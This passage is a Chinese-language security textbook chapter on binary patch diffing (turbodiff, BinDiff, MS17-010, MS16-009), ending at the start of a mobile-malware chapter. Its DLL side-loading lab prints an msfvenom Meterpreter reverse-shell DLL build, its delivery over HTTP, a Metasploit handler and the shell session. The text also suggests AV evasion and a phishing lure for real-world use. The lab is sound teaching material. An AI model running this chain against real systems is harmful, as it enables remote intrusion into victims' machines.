本章将介绍的另一个工具是turbodiff。选择该工具是因为它可以与IDA 5.0的免费版一起运行。DarunGrim和patchdiff2也是出色的工具；但是，使用它们需要IDA的授权副本，这使得那些跟随阅读的人如果没有已经拥有或购买授权副本，就无法完成本章的练习。DarunGrim和patchdiff2都很用户友好，且与IDA设置起来很容易。有关安装和使用的文档可供参考（参见本章末尾的“For Further Reading”部分）。Diaphora是BinDiff的另一个绝佳替代品，鼓励您尝试并将其与BinDiff进行比较。

如前所述，turbodiff插件可从http://corelabs.coresecurity.com/网站获取，可在GPLv2许可下免费下载和使用。最新稳定版是Version 1.01b_r2，发布于2011年12月19日。要使用turbodiff，必须将要进行差异比对的两个文件一次一个地加载到IDA中。IDA完成对第一个文件的自动分析后，按CTRL-F11调出turbodiff弹出菜单。在首次分析文件时的选项中，选择“take info from this idb”并单击OK。对要包含在差异比对中的另一个文件重复相同步骤。在对要进行差异比对的两个文件完成此操作后，再次按CTRL-F11，选择选项“compare with...”，然后选择另一个IDB文件。应出现以下窗口。


在类别列中，您可以看到identical、suspicious +、suspicious ++和changed等标签。每个标签都有其含义，可以帮助检查人员聚焦于最有趣的函数，主要是suspicious +和suspicious ++标签。这些标签表明所选函数中一个或多个块内的校验和...


已检测到，以及指令数量是否已更改。当您双击所需的函数名称时，将呈现一个可视化差异，每个函数在其自己的窗口中显示，如所示。


## Lab 17-1：我们的第一个差异分析


注意：此实验有一个独特的 README 文件，包含设置说明。有关更多信息，请参阅本书的简介。特别是对于本实验，请从本书存储库的 Lab1 中复制两个 ELF 二进制文件 name 和 name2，并将其放置在文件夹 C:\grayhat\app_diff 中。您需要创建 app_diff 子文件夹。如果您没有 C:\grayhat 文件夹，可以立即创建一个，或使用其他位置。

在本实验中，您将针对“应用程序差异分析”部分之前显示的代码执行简单的差异分析。将比较 ELF 二进制文件 name 和 name2。name 文件是未打补丁的，name2 是已打补丁的。您必须先启动之前安装的免费 IDA 5.0 应用程序。启动并运行后，转到文件 | 新建，从弹出窗口中选择 Unix 选项卡，然后单击左侧的 ELF 选项，如所示，然后单击 OK。


导航到 C:\grayhat\app_diff\ 文件夹，选择文件“name”。接受出现的默认选项。IDA 应该很快完成自动分析，默认停留在反汇编窗口中的 main() 函数，如下所示。


按 CTRL-F11 打开 turbodiff 弹出窗口。如果未出现，请返回并确保已正确复制 turbodiff 所需的文件。在屏幕上显示 turbodiff 窗口时，选择选项“take info from this idb”并单击 OK，接着再单击一次 OK。接下来，转到文件 | 新建，将出现一个弹出框，询问您是否要保存数据库。接受默认值并单击 OK。重复选择 Unix 选项卡 | ELF 可执行文件的步骤，然后单击 OK。打开 name2 ELF 二进制文件并接受默认值。重复打开 turbodiff 弹出窗口并选择选项“take info from this idb”的步骤。

完成对两个文件的此操作后，在 IDA 中仍保持 name2 文件打开的状态，再次按 CTRL-F11。选择选项“compare with...”并单击 OK。选择 name.idb 文件并单击 OK，接着再单击一次 OK。应出现以下框（您可能需要按类别排序才能复制精确的图像）。


请注意，getName() 函数标记为“suspicious ++”。双击 getName() 函数以获取以下窗口。


在此图像中，左侧窗口显示已打补丁的函数，右侧窗口显示未打补丁的函数。未打补丁的块使用 gets() 函数，该函数不提供边界检查。已打补丁的块使用 fgets() 函数，该函数需要一个大小参数以帮助防止缓冲区溢出。已打补丁的反汇编如下：

```
mov	eax, ds:stdin@@GLIBC_2_0
mov	[esp+38h+var_30], eax
mov	[esp+38h+var_34], 14h
lea	eax, [ebp+var_20]
mov	[esp+38h+var_38], eax
call	_fgets
```

两个函数中还有一些额外的代码块，但它们是白色的且不包含更改的代码。它们只是栈保护器代码，用于验证栈金丝雀，随后是函数尾声。至此，您已完成本实验。接下来，我们将探讨现实世界中的差异分析。

## 补丁管理流程

每个供应商都有自己的补丁分发流程，包括 Oracle、Microsoft 和 Apple。一些供应商有固定的补丁发布计划，而另一些则没有。拥有持续的补丁发布周期（例如 Microsoft 所使用的周期），可以让负责管理大量系统的人相应地进行规划。带外补丁对组织来说可能会带来问题，因为可能没有现成的资源来推出更新。我们将主要关注 Microsoft 的补丁管理流程，因为它是一个成熟的流程，常常成为差异分析的目标，目的是为了利润而发现漏洞。

## Microsoft 补丁周二

每月的第二个星期二是 Microsoft 的每月补丁周期，偶尔会因关键更新而发布带外补丁。自引入 Windows 10 累积更新以来，该流程一直在变化，该更新从 2016 年 10 月起适用于 Windows 7 和 8，同时补丁下载方式也发生了变化。直到 2017 年 4 月，每个更新的摘要和安全补丁都可以在 https://technet.microsoft.com/en-us/security/bulletin 上找到。从 2017 年 4 月开始，补丁从 Microsoft Security TechCenter 网站 https://portal.msrc.microsoft.com/en-us/security-guidance 获取，摘要信息在 https://portal.msrc.microsoft.com/en-us/security-guidance/summary。补丁通常通过 Windows 控制面板中的 Windows Update 工具获得，或由 Windows Server Update Services (WSUS) 或 Windows Update for Business (WUB) 等产品集中管理。当需要差异分析的补丁时，可以从上述 TechNet 链接获取。

每个补丁公告都链接到有关更新的更多信息。一些更新是公开发现的漏洞的结果，而大多数则是通过某种形式的协调私下披露。以下图像显示了此类私下披露漏洞的示例。


如您所见，关于漏洞只提供了有限的信息。提供的信息越多，某人能够快速定位已打补丁代码并生成可用漏洞利用的可能性就越大。取决于更新的大小和漏洞的复杂性，仅发现已打补丁代码就可能具有挑战性。通常，易受攻击的条件仅在理论上存在，或者只能在非常特定的条件下触发。这会增加确定根本原因并生成成功触发漏洞的概念验证代码的难度。一旦确定根本原因并且易受攻击的代码可在调试器中进行分析，就必须确定获取代码执行的难度（如果适用）。

## 获取和提取 Microsoft 补丁

我们很快将进行一个实验，但首先让我们看一个获取和提取 Windows 10 累积更新的示例。2017 年 4 月之前的累积更新可在 Microsoft TechNet 上找到，网址为 https://technet.microsoft.com/en-us/library/security/dn631937.aspx。2017 年 4 月及以后的累积更新可在 https://portal.msrc.microsoft.com/en-us/security-guidance 上找到。就我们的示例而言，我们关注的是 MS17-010，它修复了多个 SMB 错误，并于 2017 年 3 月发布。有关此披露的信息可在 https://technet.microsoft.com/en-us/library/security/ms17-010.aspx 上找到。安全修复标题如下图所示。

| 操作系统 | Windows SMB 远程代码执行漏洞 – CVE-2017-0143 | Windows SMB 远程代码执行漏洞 – CVE-2017-0144 | Windows SMB 远程代码执行漏洞 – CVE-2017-0145 | Windows SMB 远程代码执行漏洞 – CVE-2017-0146 | Windows SMB 信息泄露漏洞 – CVE-2017-0147 | Windows SMB 远程代码执行漏洞 – CVE-2017-0148 | 被替代的更新 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| Windows 10 | | | | | | | |
| Windows 10 32 位系统 [3] (4012606) | 关键远程代码执行 | 关键远程代码执行 | 关键远程代码执行 | 关键远程代码执行 | 重要信息泄露 | 关键远程代码执行 | 3210720 |
| Windows 10 x64 版系统 [3] (4012606) | 关键远程代码执行 | 关键远程代码执行 | 关键远程代码执行 | 关键远程代码执行 | 重要信息泄露 | 关键远程代码执行 | 3210720 |
| Windows 10 版本 1511 32 位系统 [3] (4013198) | 关键远程代码执行 | 关键远程代码执行 | 关键远程代码执行 | 关键远程代码执行 | 重要信息泄露 | 关键远程代码执行 | 3210721 |

我们将专注于 CVE-2017-0147，“Windows SMB 信息泄露漏洞”，以简单识别修复程序，但首先我们必须下载并提取更新。使用上述 MS17-010 链接，通过 Microsoft 目录服务器单击并下载 32 位 Windows 10 更新，如下所示。

| Windows 10 | | | | | | | |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| Windows 10 32 位系统 [3] (4012606) | 关键远程代码执行 | 关键远程代码执行 | 关键远程代码执行 | 关键远程代码执行 | 重要信息泄露 | 关键远程代码执行 | 3210720 |

左侧的框选区域是通过目录服务器下载更新的链接。右侧的框选链接是“被替代的更新”字段。单击此链接将带您进入相关文件上次打补丁时的更新信息。如果文件 srv.sys 在 2017 年 10 月打过补丁，而在此之前上次打补丁是在 2017 年 7 月，则“被替代的更新”链接将带您进入那个更新。这一点很重要，因为您始终希望对最接近的版本进行差异分析，以便对函数的任何更改都与您感兴趣的 CVE 相关联。

现在，2017 年 3 月的 Windows 10 32 位累积更新已下载完毕，我们将使用 Greg Linares 创建的名为 PatchExtract 的工具来方便地提取。PatchExtract 是一个 PowerShell 脚本，它使用 Microsoft 的“expand”工具和


其他用于提取和组织下载的 MSU 文件及随后 cabinet 文件中包含的众多文件的命令。撰写本文时，PatchExtract 版本 1.3 仍是最新版本。它可从 https://pastebin.com/VjwNV23n 获得。Greg 的 Twitter 账号是 @Laughing_Mantis。还有一个名为 PatchClean 的相关 PowerShell 脚本，可帮助进一步组织提取的更新，并确保仅标记过去 30 天内修改过的文件为感兴趣。这样做的理由是累积更新包含与该 Windows 版本相关的所有更新，可追溯数月之久。PatchClean 会将 30 天前的所有文件移动到“Old”文件夹，以便关注最近更新的文件。这仍然需要你执行验证，并且你还必须意识到执行提取时的日期。如果你在初始补丁发布日期之后执行提取并运行 PatchClean，则可能需要相应调整日期和时间。

以下命令示例展示了如何使用管理员命令提示符运行 PatchExtract，以从 2017 年 3 月累积更新中提取文件和补丁：

```
c:\grayhat\Chapter 17> powershell -ExecutionPolicy Bypass
PS C:\grayhat\Chapter 17> .\PatchExtract13.ps1 -Patch .\March-2017-Win10-x86-Cumulative-Update\
AMD64_X86-all-windows10.0-kb4012606-x86_8c19e23def2ff92919d3fac069619e4a8e8d3492e.msu -Path 'C:\grayhat\Chapter 17\ March-2017-Win10-x86-Cumulative-Update'
```

该命令看起来可能很长，但这主要是因为输入了路径以及累积更新的文件名较长。输入后，PatchExtract 将执行提取，这可能需要几分钟，具体取决于文件大小。Windows 10 x64 累积更新可能超过 1GB，因此我们选择了 x86 版本。完成后，我们将得到几个文件夹。在本示例中，我们想进入“x86”文件夹查看一下。共有 1,165 个子文件夹。请花点时间思考我们的目标。我们只想识别与 2017 年 3 月补丁周期相关的文件，但我们却得到了 1,165 个子文件夹。这时 PatchClean 工具就派上用场了。我们首先要进入并将用于分析的系统日期更改为 2017 年 3 月补丁周二的日期，即 2017 年 3 月 14 日（星期二）。默认情况下，PatchClean 会从该日期往前推 30 天，并将修改时间晚于该日期的任何内容移动到“Old”文件夹。这样我们就可以看到过去 30 天内哪些文件发生了变更。

```
c:\grayhat\Chapter 17> powershell -ExecutionPolicy Bypass
PS C:\grayhat\Chapter 17> .\PatchClean.ps1 -Path 'C:\grayhat\Chapter 17\ March-2017-Win10-x86-Cumulative-Update\x86'
```

脚本完成后，我们从原来的 1,165 个文件夹中剩下 318 个。这个数量很大并不奇怪，因为由于修复 SMB 漏洞的延迟，微软跳过了 2017 年 2 月的补丁周二。²

## Lab 17-2：对比 MS17-010

在本实验中，你将使用 Gray Hat 仓库中提供的两个 srv.sys 文件。一个位于名为“Old”的文件夹中，另一个位于名为“New”的文件夹中。新文件来自 2017 年 3 月更新。本实验中显示的示例来自以 x86 兼容模式运行的 IDA 7.0，以便可以使用 BinDiff 4.3 插件。

第一步是打开你拥有许可证的 IDA 副本，如果你没有许可证版本，则打开免费版本 5.0，并打开“New”srv.sys 文件。允许 IDA 完成其分析。完成后，保存数据库并打开 srv.sys 的“Old”版本。分析完成后，你就可以执行对比了。加载“Old”srv.sys 文件后，按 CTRL-6 打开 BinDiff 菜单，然后单击 Diff Database.... 如果你使用 turbodiff，请按 CTRL-F11 打开其菜单，并使用与实验 17-1 中显示的相同方法。


单击 Diff Database... 按钮后，导航到“New”srv.sys IDB 文件并执行对比。几秒钟后，对比应完成，并且 IDA 中应该会打开一些新选项卡。我们感兴趣的是“Matched Functions”。在接下来显示的对比结果中，我们选中了函数 SrvSmbTransaction()。通常，当有多个函数发生变更时，你在确定潜在的感兴趣函数时必须查看函数名称。

| 相似度 | 置信度 | 变更 | 主地址 | 主名称 |
| :--- | :--- | :--- | :--- | :--- |
| 0.83 | 0.97 | GI---- | 000000000005C141 | SrvSnapParseToken(x,x,x) |
| 0.87 | 0.99 | GI--EL- | 00000000000150EF | SrvPerformCopyChunkWorker(x) |
| 0.89 | 0.99 | GI-JE-- | 0000000000027530 | SrvFsdDispatchFsControl(x,x,x) |
| 0.92 | 0.93 | -I-J--- | 0000000000028760 | _TlgEnableCallback(x,x,x,x,x,x,x,x,x) |
| 0.94 | 0.99 | GI--E-- | 0000000000058607 | SrvSmbTransactionSecondary(x) |
| 0.95 | 0.99 | GI---C | 000000000005717F | SrvRestartExecuteTransaction(x) |
| 0.95 | 0.99 | GI---C | 0000000000056837 | ExecuteTransaction(x) |
| 0.95 | 0.99 | GI--E-- | 000000000005787D | SrvSmbNtTransactionSecondary(x) |
| 0.96 | 0.99 | GI-JE-- | 0000000000057C84 | SrvSmbTransaction(x) |
| 0.96 | 0.99 | GI----- | 0000000000027300 | SrvFsdDispatch(x,x) |
| 0.96 | 0.99 | GI----- | 000000000001C7FA | SrvDisconnectHandler(x,x,x) |
| 0.96 | 0.99 | GI-JE-- | 000000000005192B | SrvSmbWriteAndX(x) |

按 CTRL-E 执行图形化对比。如果使用 turbodiff，请务必使用前面描述的方法执行图形化对比。以下是图形化对比的“缩小视图”概览。


如果你单击任何汇编块，而不仅仅是放大，屏幕配置将更改为仅显示所选块周围的一组块。如果要返回主概览，必须单击主 BinDiff 功能区上的 Select Ancestors 图标，如所示。


在此示例中，srv.sys 的未修补版本位于左侧，已修补版本位于右侧。放大并查看差异后，我们识别出一个有趣的变更。以下图像来自未修补版本，你可以看到函数 ExecuteTransaction 如所示被调用。

```
00057C84 SrvSmbTransaction(x)
000584B5 cmp bl ss:[ebp+0xFFFFFFFF], bl 0x0
000584B9 mov eax, ss:[ebp+0xFFFFFFF8]
000584BC mov ecx, ss:[ebp+0xFFFFFFF4]
000584BF mov dsi:[eax+0x58], ecx
000584C2 mov eax, ss:[ebp+0xFFFFFFF8]
000584C5 mov ecx, ss:[ebp+0xFFFFFFFC]
000584C8 mov dsi:[eax+0x64], ecx
000584CB jz 0x584E4
```

```
00057C84 SrvSmbTransaction(x)
000584E4 mov eax, ds:[_WP__GLOBAL_Control]
000584E9 cmp bl ds:[eax+0x1D], bl 0x2
000584ED jb 0x5851D
```

```
00057C84 SrvSmbTransaction(x)
000584CD mov eax, ss:[ebp+0xFFFFFFF8]
000584D0 mov ecx, esi // int
000584D2 mov dsi:[esi+0x00], eax
000584D8 call @ExecuteTransaction@4
000584DD mov ebx, eax
000584DF jmp 0x585F9
```

现在来看已修补版本。导致 ExecuteTransaction 函数调用的相同代码块现在先执行一些 memset 函数调用，然后才到达该块。请随意跟踪此路径上的几个块。memset 函数调用可能正在处理与 CVE-2017-0147 相关的信息泄露问题。


在中间块中仍然可以看到 ExecuteTransaction 函数，但流程必须先经过 memset 函数调用才能到达该块。请随意跟踪此路径上的几个块。memset 函数调用可能正在处理与 CVE-2017-0147 相关的信息泄露问题。

## 利用的补丁对比

在之前针对 MS17-010 的 Microsoft 补丁对比中，我们识别出解决了信息泄露问题的代码变更；然而，这并未引导我们利用该漏洞。在接下来的示例中，我们将查看一个 DLL 侧加载漏洞，该漏洞可能允许远程代码执行，并让工作漏洞利用运行起来。MS16-009 和 MS16-014 均声称解决 CVE-2016-0041，该漏洞与“DLL 加载远程代码执行漏洞”有关。³ 本文作者发现，我们感兴趣的实际文件是在 MS16-009 补丁中提供的。为保持一致性，该漏洞由 Greg Linares 发现，他编写了前面介绍过的 PatchExtract 工具。

## DLL 侧加载漏洞

在网上查询时，你可能会遇到各种关于什么是 DLL 侧加载漏洞的定义。从高层次来看，根据注册表设置以及传递给 DLL 加载函数（例如 LoadLibrary() 函数系列）的参数，可能会


存在一种或多种方式来强制加载不需要的 DLL。让我们用一个简单的类比来描述这个问题的一个示例。我们假设你总是将用于食物的盐和胡椒放在厨房橱柜中一个非常特定的位置。想象一下，下次你去使用它们时，它们不在那个位置。你可以放弃使用盐和胡椒，也可以去其他常见位置寻找，例如其他橱柜、桌子和台面。最终，你要么找到盐和胡椒，要么放弃。这与与 DLL 加载相关的搜索顺序并无太大不同。一个更安全的设置是仅允许从非常特定的位置（例如 C:\Windows\System32\）加载所需的 DLL。一个不太安全的选项是允许根据搜索顺序优先级从各种位置加载 DLL。

让我们深入了解 DLL 可以如何以及从哪里加载。首先，在过去几个 Windows 版本中，有一个注册表容器，通常位于 HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Session Manager\KnownDlls\. 示例如下所示。


该容器存储常用于帮助加速程序加载的 DLL，但有些人也将其视为一种安全控制，因为它指定列出的 DLL 只能从 C:\Windows\System32\ 或 C:\Windows\SysWOW64\ 下的 System32 文件夹加载。接下来，可以使用 LoadLibraryEx 函数动态加载进程请求的 DLL：

```
HMODULE WINAPI LoadLibraryEx(
_In_ LPCTSTR lpFileName,
_Reserved_ HANDLE hFile,
_In_ DWORD dwFlags
);
```

必需参数之一是 dwFlags，用于指定 DLL 可能从何处加载以及其他行为，例如与 AppLocker 相关的行为以及有关代码执行的入口时会发生什么。更多信息可以在 https://msdn.microsoft.com/en-us/library/windows/desktop/ms684179(v=vs.85).aspx 上找到。如果 dwFlags 参数保留为默认值 0，则行为将与旧的 LoadLibrary 函数相同，该函数实现了 SafeDllSearchMode。如 Microsoft 所述：“如果启用了 SafeDllSearchMode，搜索顺序如下：

- 1. 应用程序加载所在的目录。
- 2. 系统目录。使用 GetSystemDirectory 函数获取此目录的路径。
- 3. 16 位系统目录。没有函数可获取此目录的路径，但会搜索它。
- 4. Windows 目录。使用 GetWindowsDirectory 函数获取此目录的路径。
- 5. 当前目录。
- 6. PATH 环境变量中列出的目录。

请注意，这不包括由 App Paths 注册表项指定的每个应用程序路径。计算 DLL 搜索路径时不使用 App Paths 项。”5

在这些选项中，5 和 6 可能存在安全问题，因为它们可能包含攻击者可以影响的位置，例如全局可写的位置。用于保护 LoadLibraryEx 调用的常见 dwFlags 选项是 0x800 “LOAD_LIBRARY_SEARCH_SYSTEM32”。该选项将 DLL 的加载限制为仅 System32 文件夹。

## Lab 17-3: 差异分析 MS16-009

在此实验中，我们分析与 MS16-009 和 MS16-014 相关的安全修复，两者都声称解决了 CVE-2016-0041。补丁提取过程已为您完成，并可在 Gray Hat Hacking 代码仓库中找到。所示的补丁差异分析示例使用 IDA 7.0 x64 和 BinDiff 4.3。利用部分涉及的操作系统是 Kali Linux x64 和 Windows 10 x64 家庭版，构建号 10586。Windows 10 基础构建中使用的 Skype 版本是 7.18.0.112。

在提取 MS16-009 补丁时，我们确定文件 urlmon.dll 已被更新。更新后的 urlmon.dll 版本和之前的版本均已作为本实验的一部分提供给您。第一步是使用 IDA 对这些文件进行反汇编并执行差异分析。您必须将 BinDiff 4.3 与 IDA Professional 一起使用，因为它支持反汇编 64 位输入文件，而此漏洞仅影响 64 位 Windows。如果您没有能力反汇编 64 位输入文件并保存 IDA .idb 数据库文件，则无法完成本实验，只能阅读以下各节。您也可以将 radare2 作为 IDA 的替代方案进行研究。

现在使用上述选项之一执行差异分析。以下图片显示了使用 BinDiff 时的结果。

| Similarity | Confidence | Change | EA Primary | Name Primary |
|------------|------------|--------|------------|--------------|
| 0.98 | 0.99 | - | 000000018003B2A0 | BuildUserAgentStringMobileHelper(UACOMPATMODE,char ... |
| 1.00 | 0.99 | | 0000000180001000 | _dynamic_initializer_for__g_OleAutDll__ |
| 1.00 | 0.99 | | 0000000180001010 | _dynamic_initializer_for__g_mxsMedia__ |
| 1.00 | 0.99 | | 0000000180001040 | _dynamic_initializer_for__g_mxsSession__ |
| 1.00 | 0.99 | | 0000000180001070 | _dynamic_initializer_for__g_mxsTls__ |
| 1.00 | 0.99 | | 00000001800010A0 | _dynamic_initializer_for__g_tlsDataList__ |

根据 BinDiff，只有一个函数发生了变化。要让我们锁定与漏洞修复相关的函数，就没有比这更容易的了。该函数的名称是 BuildUserAgentStringMobileHelper()。让我们按 CTRL-E 执行图形差异分析。以下图片显示了高级别的结果。


在放大查看代码更改时，我们可以快速识别以下代码块。


您应立即注意到，在左侧的未修补版本中，dwFlags 参数正在被 XOR 为 0。这将导致 SafeDllSearchMode 生效。在右侧的已修补版本中，dwFlags 被设置为 0x800，这将限制所需 DLL 的加载仅限于 System32 文件夹。我们想查看代码中该位置正在加载哪个 DLL。为此，我们可以直接返回 IDA 并跳转到函数 BuildUserAgentStringMobileHelper()。快速到达那里的最简单方法是在 IDA 的“函数”窗口中单击并开始键入所需的函数名称。然后双击它以调出反汇编代码。您也可以通过单击 IDA 主反汇编窗口、按 G 并键入要跳转到的地址来跳过该步骤。回顾 BinDiff 中的未修补结果，我们可以看到感兴趣的地址是 0x18003BCB1。跳转到该地址后，我们得到了所需的结果，如下所示。


如您所见，代码中此时正在加载的 DLL 是 phoneinfo.dll。您可以跳过以下步骤，但目的是向您展示如何识别哪些应用程序需要此 DLL。首先，从文件系统根目录进行了详尽搜索，以查看文件 phoneinfo.dll 是否存在于 Windows 10 x64 基础安装中。已确认该文件不存在。接下来，我们要启动 Microsoft 的 Process Monitor 工具（可在 https://docs.microsoft.com/en-us/sysinternals/downloads/procmon 获取）。以下图片显示启动 Process Monitor 工具后应用的两个筛选器。


第一个筛选器在“结果”为“名称未找到”时生效。第二个筛选器用于“路径”，且以“phoneinfo.dll”结尾。应用这些筛选器后，我们运行各种应用程序，例如 IE11、Edge、Skype、OneDrive、Word 和其他应用程序。由于 DLL 名为 phoneinfo.dll，仅根据名称尝试某些应用程序是合理的。以下是结果示例。

| Time | Process | PID | Operation | Path | Result |
| :--- | :--- | :--- | :--- | :--- | :--- |
| 9:42:0... | IEXPLORE.EXE | 4504 | CreateFile | C:\Program Files\Internet Explorer\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:42:0... | IEXPLORE.EXE | 4504 | CreateFile | C:\Windows\SysWOW64\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:42:0... | IEXPLORE.EXE | 4504 | CreateFile | C:\Windows\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:42:0... | IEXPLORE.EXE | 4504 | CreateFile | C:\Windows\SysWOW64\wbem\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:42:0... | IEXPLORE.EXE | 4504 | CreateFile | C:\Windows\SysWOW64\WindowsPowerShell\v1.0\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:42:0... | IEXPLORE.EXE | 4504 | CreateFile | C:\Python27\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:42:0... | IEXPLORE.EXE | 4504 | CreateFile | C:\Program Files (x86)\Skype\Phone\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:35:2... | Skype.exe | 4880 | CreateFile | C:\Program Files (x86)\Skype\Phone\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:35:2... | Skype.exe | 4880 | CreateFile | C:\Windows\SysWOW64\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:35:2... | Skype.exe | 4880 | CreateFile | C:\Windows\System\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:35:2... | Skype.exe | 4880 | CreateFile | C:\Windows\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:35:2... | Skype.exe | 4880 | CreateFile | C:\Windows\SysWOW64\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:35:2... | Skype.exe | 4880 | CreateFile | C:\Windows\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:35:2... | Skype.exe | 4880 | CreateFile | C:\Windows\SysWOW64\wbem\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:35:2... | Skype.exe | 4880 | CreateFile | C:\Windows\SysWOW64\WindowsPowerShell\v1.0\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:35:2... | Skype.exe | 4880 | CreateFile | C:\Python27\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |
| 9:35:2... | Skype.exe | 4880 | CreateFile | C:\Program Files (x86)\Skype\Phone\phoneinfo.dll | NAME NOT FOUND Desired Access: R... |

您可以看到，Internet Explorer 和 Skype 都尝试加载该 DLL。在右侧，您可以看到检查的所有位置。这是 SafeDllSearchMode 的行为。值得注意的是，我们看到 C:\Python27\ 是检查的位置之一。如果我们可以使用 msfvenom 制作包含 Meterpreter 作为有效载荷的恶意 DLL，我们应该能够与易受攻击的 Windows 10 系统建立远程会话。下一张图片显示了恶意 phoneinfo.dll 文件的创建，该文件包含连接到我们 Kali Linux 系统的 Meterpreter 有效载荷。紧接着，我们使用 Python SimpleHTTPServer 模块向受害系统提供恶意 DLL。我们没有应用任何类型的防病毒（AV）规避编码、隐写或其他技术，因此我们禁用了 Windows Defender 来测试漏洞利用。


```root@kali:~# msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.55.55 LPORT=4444 -f dll > phoneinfo.dll
root@kali:~# file phoneinfo.dll
phoneinfo.dll: PE32 executable (DLL) (console) Intel 80386 (stripped to external PDB), for MS Windows
root@kali:~# python -m SimpleHTTPServer 8080
Serving HTTP on 0.0.0.0 port 8080 ...
```

接下来，我们启动一个 Metasploit 监听器，以便在攻击成功时接收传入的连接。

```msf > use exploit/multi/handler
msf exploit(handler) > set LHOST 0.0.0.0
LHOST => 0.0.0.0
msf exploit(handler) > set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD => windows/meterpreter/reverse_tcp
msf exploit(handler) > set LPORT 4444
LPORT => 4444
msf exploit(handler) > exploit
[*] Started reverse handler on 0.0.0.0:4444
[*] Starting the payload handler...
```

当 Python 和 Metasploit 监听器都在运行时，我们返回到 Windows 系统，并使用 Internet Explorer 连接到 Kali 系统的 8080 端口。然后下载 phoneinfo.dll 文件并将其保存到 C:\Python27\, 如图所示。


接下来，我们启动 Skype，它应该作为 SafeDllSearchMode 操作的一部分从 C:\Python27\ 文件夹加载恶意 DLL，如下所示。


当 Skype 应用程序运行时，我们切换回 Kali Linux 以查看 Meterpreter 会话是否已建立。

```
[*] Started reverse handler on 0.0.0.0:4444
[*] Starting the payload handler...
[*] Sending stage (752128 bytes) to 10.10.13.13
[*] Meterpreter session 1 opened (10.10.55.55:4444 -> 10.10.13.13:49681) at 2017-11-02 13:05:43 -0400

meterpreter > shell
Process 1604 created.
Channel 1 created.
Microsoft Windows [Version 10.0.10586]
(c) 2015 Microsoft Corporation. All rights reserved.

C:\Program Files (x86)\Skype\Phone>
```

成功！如果我们想在野外执行此操作，有几件事情需要考虑。首先，我们肯定希望以某种方式对有效载荷进行编码，以规避 AV 检测。其次，我们想要找到一种方法诱骗受害者将恶意 DLL 下载到其系统的特定位置。这可以通过网络钓鱼诈骗来尝试。诱骗受害者认为有一个关键的 Skype 更新并且 DLL 需要放置到特定位置可能就能奏效。

## 摘要

本章介绍了二进制差分以及可用于加快分析的各种工具。我们查看了一个简单的应用程序概念验证示例，然后查看了现实世界中的补丁以定位漏洞并验证我们的假设。这是一项后天习得的技能，与您调试和阅读反汇编代码的经验密切相关。您做得越多，就越能识别代码更改和潜在的已修补漏洞。Microsoft 已停止对 Windows XP 和 Vista 的支持；但是，某些版本（例如带有 XP Embedded 的版本）仍然受到支持并接收补丁。这可能提供在复杂性较低的操作系统上继续分析补丁的机会。Microsoft 有时会随另一个补丁悄悄加入静默代码更改，这并不罕见。这在不同版本的 Windows 之间有时会有所不同，对一个版本的 Windows 进行差分可能比对另一个版本产生更多信息。

## 进一步阅读

- BinDiff 手册 (Zynamics) https://www.zynamics.com/bindiff/manual/
- “DarunGrim 4 预-Alpha 测试，” (Jeong Wook Oh) https://mattoh.wordpress.com/2014/04/21/darungrim-4-pre-alpha-testing/
- “反馈驱动的二进制代码多样化” (Bart Coppens, Bjorn De Sutter, 和 Jonas Maebe) users.elis.ugent.be/~brdsutte/research/publications/2013TACOcoppens.pdf
- “应对 1-day 漏洞利用：对比二进制文件 vs. 反对比二进制文件” (Jeong Wook Oh) www.blackhat.com/presentations/bh-usa-09/OH/BHUSA09-Oh-DiffingBinaries-PAPER.pdf
- patchdiff2 (Nicolas Pouvesle) https://code.google.com/p/patchdiff2/

## 参考文献

- 1. Zynamics, BinDiff 手册, 2017, https://www.zynamics.com/bindiff/manual/.
- 2. Peter Bright，“微软推迟补丁周二，世界等待修复 SMB 漏洞，” ARS Technica, 2017, https://arstechnica.com/information-technology/2017/02/microsoft-delays-patch-tuesday-as-world-awaits-fix-for-smb-flaw/.
- 3. Microsoft，“Microsoft 安全公告 MS16-009 – 严重，” Microsoft 安全技术中心, 2016, https://technet.microsoft.com/en-us/library/security/ms16-009.aspx.
- 4. Larry Osterman，“已知 DLL 究竟是什么？” Microsoft 开发者博客, 2004, https://blogs.msdn.microsoft.com/larryosterman/2004/07/19/what-are-known-dlls-anyway/.
- 5. Microsoft，“动态链接库搜索顺序，” Microsoft Windows 开发者中心, 2017, https://msdn.microsoft.com/en-us/library/windows/desktop/ms682586(v=vs.85).aspx.

## 第四部分

## 高级恶意软件分析

- 第 18 章 分析移动恶意软件
- 第 19 章 分析勒索软件
- 第 20 章 ATM 恶意软件
- 第 21 章 欺骗：下一代蜜罐

## 第 18 章

## 分析移动恶意软件

智能手机设备取代了传统的“手机”，成为一个集个人计算机和多媒体设备于一体的口袋大小设备。这些个人设备提供了了解主人生活的窗口。包含用户日程安排的日历、包含联系人列表的通讯录、社交媒体账户和银行应用程序，只是典型智能手机上可以找到的所有信息的一小部分。恶意软件作者已经利用这个丰富的平台，并以各种方式加以利用。了解移动设备的架构和应用程序分析技术，使用户能够确定访问其个人数据的应用程序是以非恶意的方式运行的。

本章提供了可用于确定移动应用程序功能和潜在恶意性的分析技术和工具。

在本章中，我们将介绍以下主题：

- Android 和 iOS 平台的工作原理
- 静态和动态分析，重点关注恶意软件分析

### Android 平台

